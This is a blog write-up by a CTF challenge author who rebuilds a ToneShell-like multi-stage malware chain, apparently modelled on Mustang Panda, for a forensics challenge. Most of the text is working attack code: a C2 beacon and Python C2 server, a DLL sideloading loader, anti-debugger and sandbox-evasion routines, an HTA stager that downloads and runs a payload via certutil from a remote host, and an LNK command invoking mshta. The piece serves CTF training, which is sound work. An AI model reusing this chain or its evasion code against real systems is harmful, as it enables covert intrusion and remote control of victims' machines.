




import { Tweet, Vimeo, YouTube } from 'astro-embed';


>**Disclaimer:**
>
>If you are in law enforcement, yes I am Chinese but I'm Malaysian Chinese. No, I am not associated with Mustang Panda. If you are associated with Mustang Panda, please don’t make me disappear, I don’t know how to properly make a C2 server and all content were results of vibe programming 👹👹.

On the 8th of May 2025, [Blackberry](https://www.linkedin.com/company/blackberry/)'s [Cybersecurity Centre of Excellence](https://www.linkedin.com/showcase/cybersecurity-center-of-excellence-malaysia/) decided to run a CTF for it's 1st anniversary in Malaysia. They contacted [RE:HACK](https://www.linkedin.com/company/rehack-xyz/) to organise the event and I had the opportunity to be one of the challenge creators for this event. As the event is going to be special for Blackberry, I thought I'd put something special for one of the Forensics challenge by creating a challenge based on a research I found.


## Challenge Inspiration
---
My challenge was based on the New Year-Themed Multi-staged Malware discovered in 2024 by [Cyble Research and Intelligence Labs (CRIL)](https://www.linkedin.com/company/cyble-global/). CRIL discovered a ZIP archive file potentially distributed through New Year-themed spam emails. The attachment contains a shortcut file disguised as a PNG image, which, when executed, launches MSHTA and uses JavaScript to download and display a “Happy New Year” image, deceiving the user into thinking it is harmless. Meanwhile, the JavaScript covertly downloads and decodes a malicious payload using `certutil`, retrieving a `.cab` file that is subsequently extracted to drop a malware executable. Once executed, the malware deploys a second-stage DLL payload and uses DLL sideloading to further the infection, ultimately establishing a connection to a Command-and-Control (C&C) server. To read more on the analysis, you can read Cyble's blog post [here](https://cyble.com/blog/festive-facade-dissecting-multi-stage-malware-in-new-year-themed-lure/). With that, I planned the attack flow for my challenge:

`LNK file` → `mshta.exe` → `certutil` → `CAB File` → `EXE File` → `DLL Sideloading`

With the attack flow in mind, let's work backwards to simulate this attack. So, the first thing to build for this simulation is the DLL which will be sideloaded. Then, an executable file will need to be made to download the DLL and the executable that will load the DLL mentioned. The executable will then be archived as a `.cab` file and then encoded to disguise it as a certificate file. Then, a `.hta` file will need to be made to download the `.cab` file, decode it and run the executable. Lastly, a shortcut file will need to be created to call `mshta.exe` to run the `.hta` file.

## Behaviour of the Variant D ToneShell Beacon
---
Reading into the research by CRIL, by looking at the IOCs discovered, the attack utilises ToneShell. ToneShell is commonly used by the APT group known as Mustang Panda. Thanks to researchers at [Trend Micro](https://www.linkedin.com/company/trend-micro/), I learned how ToneShell communicates with its command and control center. The images used in this section are by Trend Micro.


How the real ToneShell communicates is as follows:

1. The handshake containing the *xor_key* and *victim_id* is sent to the C&C server.
2. A 5-byte-sized data packet that is composed of magic and has a size of 0x02 is received.
3. A 2-byte-sized data packet decrypted with the *xor_key* and that must have a first byte of 0x08 is received.
4. Data that is composed of magic and the next payload size is received.
5. Data is received and decrypted using *xor_key*. The first byte is the command code, and the following data is the extra information.


However, as the challenge was kinda rushed as I had other commitments, I wasn't going to build a one-to-one copy of ToneShell. The main part I was focusing on was the initial blob that was sent as a callback to the C2 server. This blob starts with a **512-byte** *xor_key* used to encrypt the traffic, which is derived from a seed value. Next is a **1-byte** *type* field, which is always set to the fixed value **0x08**. Following that is a **16-byte** *victim_id*, uniquely generated using *CoCreateGuid*. Finally, there's a **16-byte** *xor_key_seed*, randomly generated via *GetTickCount*, which was used to create the initial *xor_key*.

Another part that I concentrated on was how ToneShell handles the *victim_id*. According to researchers at Trend Micro, it is stored in `%USERPROFILE%\AppData\Roaming\Microsoft\Web.Facebook.config`. With that let's get to building ToneShell!

## Building the ToneShell C2 & Beacon
---

### Victim ID Generation
---

```c++
std::wstring getGUIDFilePath() {
    wchar_t userProfile[MAX_PATH];
    if (GetEnvironmentVariableW(L"USERPROFILE", userProfile, MAX_PATH) == 0) {
        return L"C:\\Users\\Default\\AppData\\Roaming\\Microsoft\\Web.Facebook.config"; 
    }
    return std::wstring(userProfile) + L"\\AppData\\Roaming\\Microsoft\\Web.Facebook.config";
}
```
Through vibe programming, the above function was made to generate the final file path the victim ID is going to be stored in. The malware will first try to put the *victim_id* within `C:\Users\Default\AppData\Roaming\Microsoft\Web.Facebook.config` first. If it fails to do so, it will then put it into `%USERPROFILE%\AppData\Roaming\Microsoft\Web.Facebook.config`.

```c++
std::wstring getOrCreateGUID() {
    std::wstring path = getGUIDFilePath();
    std::wifstream infile(path);
    std::wstring guid;
    
    if (infile) {
        std::getline(infile, guid);
        infile.close();
        if (!guid.empty()) {
            return guid;
        }
    }
    
    GUID newGuid;
    if (CoCreateGuid(&newGuid) != S_OK) {
        return L"";
    }
    
    wchar_t guidString[33];  
    swprintf(guidString, 33, L"%08X%04X%04X%02X%02X%02X%02X%02X%02X%02X%02X",
             newGuid.Data1, newGuid.Data2, newGuid.Data3,
             newGuid.Data4[0], newGuid.Data4[1], newGuid.Data4[2], newGuid.Data4[3],
             newGuid.Data4[4], newGuid.Data4[5], newGuid.Data4[6], newGuid.Data4[7]);
    
    std::wofstream outfile(path);
    outfile << guidString;
    outfile.close();
    
    return std::wstring(guidString);
}
```
Then a 16-byte guid was made using the function `CoCreateGuid` mentioned in Trend Micro's analysis. After generating, it will then save the output into the file path mentioned earlier.

### Generating the XOR Key
---
```c++
std::vector<uint8_t> generateXorKey() {
    std::vector<uint8_t> key(XOR_KEY_SIZE);
    uint32_t tick = GetTickCount();
    std::mt19937 rng(tick);

    for (size_t i = 0; i < key.size(); i++) {
        key[i] = rng() & 0xFF;
    }
    
    return key;
}
```

Next on the list is the XOR key. Based on the Trend Micro research, it’s generated using a seed derived from the `GetTickCount` function. As the research states that the XOR key is 512 bytes, the size of the XOR key is defined as a constant with the `XOR_KEY_SIZE` variable. With that, the above function is coded through vibe programming. 

### Sending the Initial Blob
---
```c++
void SendInitialBlob() {
    uint8_t type = TYPE_VALUE;
    std::string guidStr(guid.begin(), guid.end());
    std::vector<uint8_t> blob;
    blob.insert(blob.end(), xor_key.begin(), xor_key.end());
    blob.push_back(type);
    blob.insert(blob.end(), guidStr.begin(), guidStr.end());
    blob.insert(blob.end(), xor_key.begin(), xor_key.begin() + XOR_SEED_SIZE);

    if (send(ConnectSocket, reinterpret_cast<const char*>(blob.data()), blob.size(), 0) == SOCKET_ERROR) {
        return;
    }

    char ackBuffer[4];
    if (recv(ConnectSocket, ackBuffer, sizeof(ackBuffer), 0) <= 0) {
        return;
    }
}
```
With the XOR key, victim ID, and the seed prepared, the data is combined and sent back to the C2 server as a callback from the beacon. The order of the fields in the blob was explained earlier. However, through vibe programming, the actual seed used to generate the XOR key was not included in the blob. Instead, the first 16 bytes of the XOR key and the size of the seed were added . Oh, how I love vibe programming...


> Spoiler alert, writing this function with vibe programming is going to come back to haunt me later during the analysis phase... 🫩🫩

### DLL Sideloading 
---
```c++
#include <windows.h>

typedef void (*StartDLLFunc)();

int main() {
    HINSTANCE hDLL = LoadLibrary("LMIGuardianDll.dll");
    if (!hDLL) {
        return 1;
    }

    StartDLLFunc StartDLL = (StartDLLFunc)GetProcAddress(hDLL, "StartDLL");
    if (!StartDLL) {
        FreeLibrary(hDLL);
        return 1;
    }

    StartDLL();

    FreeLibrary(hDLL);
    return 0;
}
```

The last part involving the ToneShell DLL is the loader for it. This part was kinda easy... **BUT** of course vibe programming was used. 🤣🤣


### Receiving the Initial Blob
---
```python
# Receive the initial blob
blob_size = XOR_KEY_SIZE + TYPE_SIZE + GUID_SIZE + XOR_SEED_SIZE
try:
    data = receive_all(conn, blob_size)
except ConnectionError as e:
    print(f"Error receiving initial blob: {e}")
    conn.close()
    continue  # Wait for a new connection

# Extract components
xor_key = data[:XOR_KEY_SIZE]
type_value = data[XOR_KEY_SIZE]
guid = data[XOR_KEY_SIZE + TYPE_SIZE:XOR_KEY_SIZE + TYPE_SIZE + GUID_SIZE].decode('ascii', errors='ignore')
xor_seed = data[-XOR_SEED_SIZE:]

print(f"Received XOR key: {xor_key.hex()}")
print(f"Received Type: {hex(type_value)}")
print(f"Received GUID: {guid}")
print(f"Received XOR seed: {xor_seed.hex()}")

# Send acknowledgment to the client
try:
    conn.sendall(b"ACK")
except (socket.error, BrokenPipeError):
    print("Failed to send acknowledgment. Closing connection.")
    conn.close()
    continue  # Wait for a new connection
```
For the ToneShell C2, for simplicity sake, I chose Python as the programming language to host the server. So basically, the ToneShell C2 will wait for a blob to be sent by the beacon. Once it receives data from the beacon, it will split up the data according to the length of the data based on the research by Trend Micro. The details will be printed out and an acknowledgment will be sent to the beacon. Lastly, the attacker can start sending commands to the beacon.

### Sending Commands to the ToneShell Beacon
---
```python
encrypted_command = xor_encrypt_decrypt(command.encode(), xor_key)
try:
    conn.sendall(encrypted_command)
except (socket.error, BrokenPipeError) as e:
    print(f"Error sending data to client: {e}")
    break  # If sending fails, break the loop
try:
    # Receive the response in chunks
    result = b""
    while True:
        chunk = conn.recv(4096)
        if not chunk:
            break  # No more data
        result += chunk
        if len(chunk) < 4096:
            break  # Assume all data has been received

    if not result:
        print("Client disconnected.")
        break  # If no data is received, assume client disconnected

    decrypted_result = xor_encrypt_decrypt(result, xor_key).strip()
    print("Received output:")
    print(decrypted_result.decode(errors='ignore'))
except (socket.error, ConnectionResetError) as e:
    print(f"Error receiving data from client: {e}")
    break  # If receiving fails, break the loop (client may have disconnected)
except socket.timeout:
    print("Timed out waiting for client response.")
    break
```
However, before sending the commands, the server will encrypt the command with the XOR key received. The response received will also be encrypted with the same XOR key generated by the beacon. The server will then decrypt the data received.

These are the main parts of the ToneShell C2 and Beacon, I know it's not that sophisticated and I realised it from the start. However, I surprised myself during the analysis of my own beacon and loader.


## Building the 3rd Stager
---

### String Encryption
---
```c++
#include <iostream>
#include <queue>
#include <unordered_map>
#include <vector>
#include <string>
#include <fstream>
#include <sstream>
#include <iomanip>
using namespace std;

// A Huffman Tree Node
struct Node {
    char ch;
    int freq;
    Node* left, * right;

    Node(char character, int frequency) {
        ch = character;
        freq = frequency;
        left = right = nullptr;
    }
};

// Compare function for priority queue
struct Compare {
    bool operator()(Node* left, Node* right) {
        return left->freq > right->freq;
    }
};

// Traverse the Huffman Tree and store Huffman Codes in a map
void encode(Node* root, string str, unordered_map<char, string>& huffmanCode) {
    if (!root)
        return;

    // If it's a leaf node
    if (!root->left && !root->right) {
        huffmanCode[root->ch] = str;
    }

    encode(root->left, str + "0", huffmanCode);
    encode(root->right, str + "1", huffmanCode);
}

// Traverse the Huffman Tree and decode the encoded string
string decode(Node* root, string encodedString) {
    string decoded = "";
    Node* current = root;
    for (char bit : encodedString) {
        if (bit == '0') {
            current = current->left;
        }
        else {
            current = current->right;
        }

        // If it's a leaf node
        if (!current->left && !current->right) {
            decoded += current->ch;
            current = root;
        }
    }
    return decoded;
}

// Convert a string to its hexadecimal representation
string toHex(const string& input) {
    stringstream hexStream;
    for (unsigned char c : input) {
        hexStream << hex << setw(2) << setfill('0') << (int)c;
    }
    return hexStream.str();
}

// Convert a hexadecimal string back to its original string
string fromHex(const string& hexInput) {
    stringstream input(hexInput);
    stringstream output;
    while (input.good()) {
        string byte;
        input >> setw(2) >> byte;
        if (byte.empty()) break;
        char ch = stoi(byte, nullptr, 16);
        output << ch;
    }
    return output.str();
}

// Save the Huffman Tree to a string
void saveTree(Node* root, stringstream& out) {
    if (!root) {
        out << "# "; // Marker for null
        return;
    }
    out << root->ch << " " << root->freq << " ";
    saveTree(root->left, out);
    saveTree(root->right, out);
}

// Load the Huffman Tree from a stringstream
Node* loadTree(stringstream& in) {
    string value;
    in >> value;
    if (value == "#") {
        return nullptr; // Null marker
    }

    char ch = value[0];
    int freq;
    in >> freq;
    Node* node = new Node(ch, freq);
    node->left = loadTree(in);
    node->right = loadTree(in);
    return node;
}

int main() {
    string text;
    cout << "Enter the string to encode: ";
    getline(cin, text);

    // Count frequency of characters
    unordered_map<char, int> freq;
    for (char ch : text) {
        freq[ch]++;
    }

    // Create a priority queue to store live nodes of the Huffman Tree
    priority_queue<Node*, vector<Node*>, Compare> pq;

    // Create a leaf node for each character and add it to the priority queue
    for (auto pair : freq) {
        pq.push(new Node(pair.first, pair.second));
    }

    // Build the Huffman Tree
    while (pq.size() != 1) {
        // Remove the two nodes of the highest priority (lowest frequency)
        Node* left = pq.top();
        pq.pop();
        Node* right = pq.top();
        pq.pop();

        // Create a new internal node with these two nodes as children
        // and frequency equal to the sum of the two nodes' frequencies
        Node* sumNode = new Node('\0', left->freq + right->freq);
        sumNode->left = left;
        sumNode->right = right;
        pq.push(sumNode);
    }

    // Root of the Huffman Tree
    Node* root = pq.top();

    // Traverse the Huffman Tree and store the codes in a map
    unordered_map<char, string> huffmanCode;
    encode(root, "", huffmanCode);

    cout << "\nHuffman Codes:\n";
    for (auto pair : huffmanCode) {
        cout << pair.first << " " << pair.second << "\n";
    }

    // Encode the input text
    string encodedString = "";
    for (char ch : text) {
        encodedString += huffmanCode[ch];
    }

    cout << "\nEncoded String:\n" << encodedString << "\n";

    // Save the Huffman Tree to a string
    stringstream treeStream;
    saveTree(root, treeStream);
    string treeString = treeStream.str();

    // Convert the tree and encoded string to hex
    string treeHex = toHex(treeString);
    string encodedHex = toHex(encodedString);

    cout << "\nHuffman Tree (Hex):\n" << treeHex << "\n";
    cout << "Encoded String (Hex):\n" << encodedHex << "\n";

    // Take tree and encoded string as input instead of reading from files
    cout << "\nEnter Huffman Tree (Hex): ";
    string inputTreeHex;
    cin >> inputTreeHex;

    cout << "Enter Encoded String (Hex): ";
    string inputEncodedHex;
    cin >> inputEncodedHex;

    // Convert hex back to original data
    string loadedTreeString = fromHex(inputTreeHex);
    string loadedEncodedString = fromHex(inputEncodedHex);

    // Reconstruct the tree
    stringstream loadedTreeStream(loadedTreeString);
    Node* loadedTree = loadTree(loadedTreeStream);

    // Decode the loaded encoded string
    string decodedString = decode(loadedTree, loadedEncodedString);

    cout << "\nDecoded String:\n" << decodedString << "\n";

    return 0;
}
```

Now, during my research for this challenge, I do not know how did the real loader work for that specific attack. For that reason, I decided to create my own loader! Sounds exciting right?! Yeah, try telling me that months ago when I was vibe coding with DeepSeek and ChatGPT, just trying to get the loader and DLL to work 😵‍💫.

Anyway, whenever I'm creating malware challenges, I always consider how participants will analyse the malware. The first tools that come to mind are `strings` and `floss`, which are perfect for locating visible strings within the executable. Naturally, I had to ask a professional how typical malware hides strings, because if they figured out the encryption method, they'd be able to decrypt the strings. His suggestion was as follows:

>**Malware Professional:** Maybe you can implement more stager payload, packed it with harder packer, shellcode, compression, and many moree

As he said that, the word *compression* kept replaying in my mind. I remembered a malware analyst mentioning how she spent days analysing a sample, initially thinking it was an encryption method, only to later realise it was actually a compression function. So, that led me thinking, can I compress a string? The answer was yes. The source code you see above here is actually the function for Huffman Encoding. This was one of the topics that was taught during my university days and I finally found a use for it!

> I know it's Huffan "Encoding", but we were taught this was how a string can be represented through so called "compression".

The code begins by defining a `Node` structure to represent each node in the Huffman tree, which holds a character, its frequency, and pointers to its left and right children. A `priority_queue` stores nodes based on their frequency, with the least frequent nodes given the highest priority. The tree is built by repeatedly combining the two least frequent nodes until only one node remains, which becomes the root.

The program then generates Huffman codes by traversing the tree and assigning each character a unique binary code. These codes are stored in a map, and the input string is encoded using them. The encoded string is then displayed to the user. The Huffman tree and the encoded string is then serialised into a string, which is converted into hexadecimal format for easier storage. 

With this in place, the strings will be effectively encrypted. Anyone attempting to decrypt the strings found within the loader would need to understand the function itself, rather than relying on the usual methods like XOR keys or AES encryption for decryption. So, I proceeded to hide the URLs hosting the DLL and the executable to run the DLL.

### Sandbox Evasion Implemented
---

From observing how Blue Teamers usually tackle malware challenges, I know they either run it through VirusTotal or directly within their virtual machine. So, to prevent these tactics from being used, I thought of implementing Sandbox Evasion into the loader.

Mustang Panda has previously attack the following countries:
- Australia
- Bangladesh
- Belgium
- Bulgaria
- China
- Cyprus
- Czech
- Ethiopia
- France
- Germany
- Greece
- Hong Kong
- Hungary
- India
- Indonesia
- Japan
- Mongolia
- Myanmar
- Nepal
- Pakistan
- Philippines
- Russia
- Singapore
- Slovakia
- South Africa
- South Korea
- South Sudan
- Sweden
- Taiwan
- Thailand
- Tibet
- UK
- USA
- Vietnam

Since these were the countries targeted by Mustang Panda, it makes sense that the malware would operate within these regions. Therefore, I implemented a function to check whether the user's timezone is set to Japan.

```c++
bool isInJapanTimezone()
{
    TIME_ZONE_INFORMATION timeZoneInfo;
    GetTimeZoneInformation(&timeZoneInfo);

    if (wcsstr(timeZoneInfo.StandardName, L"Tokyo") != NULL || 
        wcsstr(timeZoneInfo.StandardName, L"Osaka") != NULL || 
        wcsstr(timeZoneInfo.StandardName, L"Sapporo") != NULL || 
        wcsstr(timeZoneInfo.StandardName, L"Japan") != NULL)
    {
        return true;
    }
    return false;
}
```

This function checks if the system's timezone is set to Japan's timezone. It does this by looking for certain words in the timezone's name, such as "Tokyo," "Osaka," "Sapporo," or "Japan." It gets the system's timezone information and then checks if the name contains any of these words. If it finds one, it returns true, meaning the system is likely in Japan's timezone. If none of these words are found, it returns false, meaning the system is not in Japan's timezone.


### Anti-Debuggers Implemented
---

```c++

bool isDebuggerProcessRunning()
{
    const char* debuggerProcesses[] = {
        "x32dbg.exe", "x64dbg.exe", "ollydbg.exe", "windbg.exe", "ida.exe", "ida64.exe",
        "idaq.exe", "idaq64.exe", "procmon.exe", "filemon.exe", "regmon.exe", "tcpview.exe",
        "wireshark.exe", "sandboxie.exe", "cuckoo.exe"
    };

    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnap == INVALID_HANDLE_VALUE) {
        return false;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (Process32First(hSnap, &pe)) {
        do {
            for (const char* processName : debuggerProcesses) {
                if (_stricmp(pe.szExeFile, processName) == 0) {
                    CloseHandle(hSnap);
                    return true;
                }
            }
        } while (Process32Next(hSnap, &pe));
    }

    CloseHandle(hSnap);
    return false;
}

bool isDebuggerWindowOpen()
{
    LPCWSTR debuggerWindows[] = {
        L"x32dbg", L"x64dbg", L"OllyDbg", L"Immunity Debugger", L"WinDbg",
        L"IDA", L"IDA Pro", L"idaq", L"idaq64",
        L"Process Monitor", L"procmon",
        L"Wireshark", L"TCPView", L"Network Monitor",
        L"Filemon", L"Regmon",
        L"Sandboxie", L"Cuckoo Sandbox"
    };

    for (LPCWSTR windowTitle : debuggerWindows)
    {
        if (FindWindowW(NULL, windowTitle)) {
            return true;
        }
    }
    return false;
}

void monitorDebugger() {
    while (true) {
        if (isDebuggerProcessRunning()) {
            exit(-1);
        }
        if (isDebuggerWindowOpen()) {
            exit(-1);
        }
        Sleep(1000);
    }
}
```

Another way Blue Teamers tackle malware challenges is by debugging them. So, let's take that ability away from them by implementing anti-debuggers.

The `isDebuggerProcessRunning()` function checks if any known debugger processes are running on the system. It defines a list of debugger process names, such as "x32dbg.exe" and "ollydbg.exe." It then takes a snapshot of all running processes on the system using `CreateToolhelp32Snapshot`. It checks each process in the snapshot, comparing the process name against the list of known debugger names. If any of the processes match, the function returns true, indicating that a debugger is running. If no matches are found, it returns false. The function uses `Process32First` and `Process32Next` to iterate through the processes, and closes the handle to the snapshot before returning the result.

The `isDebuggerWindowOpen()` function checks if any known debugger windows are open. It defines a list of debugger window titles, such as "x32dbg" and "IDA Pro." The function uses `FindWindowW` to search for any windows with titles that match the ones in the list. If it finds a window with a matching title, it returns true, indicating that a debugger window is open. If no matching windows are found, it returns false. 

Lastly, the `monitorDebugger()` function continuously monitors for the presence of debugger processes or debugger windows. It runs in an infinite loop and checks both conditions by calling `isDebuggerProcessRunning()` and `isDebuggerWindowOpen()`. If either of these functions return true, meaning a debugger is detected, it immediately calls `exit(-1)` to stop the program and terminate execution. If no debugger is detected, the function waits for one second (`Sleep(1000)`) before checking again.

After compiling the 3rd stager, I archived the file in a `.cab` file and encoded it as a certificate file using the following commands:

```bash
# Archiving the 3rd stager
makecab musangking.exe wct9039.tmp

# Encoding it as a certificate file
openssl base64 -in wct9039.tmp -out wct9039.jpg
```

By checking if the user is in Japan and if a debugger is running, the challenge forces participants to understand how the malware works and how to get around these restrictions. I had to learn this myself while making the challenge, so I thought, why not let the participants learn from it too?


## Building the 2nd Stager
---
```html {"This line was modified from the original source":37-38}
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="SI"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">

<script>
function XLKJSDGOODGOGOGO(xaksldfjifjglka) {
    a = new ActiveXObject("Wscript.Shell");
    a.Run(xaksldfjifjglka, 0);
}

function OCKJOIFJIOGGOGOGO(xaksldfjifjglka) {
    b = new ActiveXObject("Wscript.Shell");
    b.Run(xaksldfjifjglka, 0);
}

function liociaskdjlkdlakfk(xaksldfjifjglka) {
    c = new ActiveXObject("Wscript.Shell");
    c.Run(xaksldfjifjglka, 0);
}

function LSJDIJLKDJOGOGOGO(n) {
    var d = new ActiveXObject("WScript.Shell");
    d.Run("%comspec% /c ping -n " + n + " 127.0.0.1 > nul", 0, 1);
}

XLKJSDGOODGOGOGO("http://192.168.88.131/images/musangking.png");

LSJDIJLKDJOGOGOGO(10);

// ...
XLKJSDGOODGOGOGO("certutil.exe -f -urlcache \"http://192.168.88.131/pt/wct9039.jpg\" \"C:\\Users\\Public\\Documents\\wct9039.jpg\"");

LSJDIJLKDJOGOGOGO(20);

OCKJOIFJIOGGOGOGO("certutil.exe -decode \"C:\\Users\\Public\\Documents\\wct9039.jpg\" \"C:\\Users\\Public\\Documents\\wct9039.tmp\"");

LSJDIJLKDJOGOGOGO(10);

OCKJOIFJIOGGOGOGO("expand C:\\Users\\Public\\Documents\\wct9039.tmp -f:* C:\\Users\\Public\\Videos\\winp.exe");

LSJDIJLKDJOGOGOGO(5);

liociaskdjlkdlakfk("cmd /c C:\\Users\\Public\\Videos\\winp.exe");

</script>
</head>
<body>
</body>
</html>
```

The 2nd stager was easy to replicate since the source code was provided in the research, although I had to use zoom tool to see the source code. However, the only change I made to the source code is the one highlighted above. The reason for this change will be explained during the analysis phase.

The 2nd stager is just a simple HTML Application (HTA) file that runs commands using Windows Script Host. HTA files are similar to HTML but are allowed to run scripts with higher privileges on Windows. The script shown is able to hide the application window by setting it to minimise, removing the title bar, and not showing it in the taskbar, making it less noticeable when it runs.

The script defines several functions that each use `ActiveXObject("WScript.Shell")` to run system commands. Although the functions have different names, they all do the same thing. They take a command as input and run it silently in the background using the Windows command line. Another function, `LSJDIJLKDJOGOGOGO`, adds a delay by using the ping command to pause the script for a specific number of seconds. This helps space out the actions so they do not all happen too quickly or at once.

After defining the functions, the script first accesses `http://192.168.88.131/images/musangking.png`. This basically loads and image, tricking the user to think that they just opened an image file. Then, it waits for 10 seconds before downloading a file named **wct9039.jpg** using `certutil`, a built-in Windows utility that can download files from the internet. It stores the file in the public documents folder.

After a 20-second wait, the script decodes the downloaded `.jpg` file into a `.tmp` file. After another short delay, the `.tmp` file is extracted using the `expand` command into an executable file called `winp.exe`, saved in the public videos folder. Finally, the script waits a bit more, then runs `winp.exe` using the command line. 

With all the components ready, the last step is to create a shortcut file that the victim will click.

## Building the 1st Stager
---


The last stager is the easiest to create, and don't worry, there won't be any vibe programming here 🤣🤣. Within the Desktop, right click and click on *New* and followed by *Shortcut*. A wizard (not that kind) will then appear and prompt you to insert where the shortcut file will point to. This is where the following payload is inserted:
```
%SystemRoot%\system32\mshta.exe http://192.168.88.131/Queen/M.hta
```


After that, the wizard will ask you to name the file.


Then assuming the victim uses the same version of Microsoft Office as the attacker... Yes, it is not the best OPSEC. The shortcut file's icon can be changed by modifying its icon properties into this file:
```
C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.EXE
```


## Attack Simulation and ToneShell C2 Demonstration
---

<Vimeo id="https://vimeo.com/1081488435" /> 

With the components all ready and hosted in the right location with Wireshark running in the background, this is the demonstration of the whole attack from start to finish. 

> Yes, I know the C2 server is a bit broken but as I already mentioned, I'm a noob, not an APT member...


## Forensics Analysis
---

With the attack fully simulated, a Forensic Triage was taken from the victim machine with KAPE and the packet capture file from Wireshark is saved.

### Malicious LNK File (1st Stager)
---


The first clue that participants might find when looking for possible IOCs is in `C:\Users\user\Desktop`. There, they will see a file called `Musang King.docx`. At first, it looks like a normal Word document, but if they look closely, they will notice it is actually a shortcut file (LNK). This can be seen from the small arrow on the bottom left of the file icon. This means the file could be set up to run another program or command.


By checking the file’s properties, you can see the path that the LNK file is pointing to. It runs the following command:
```plaintext
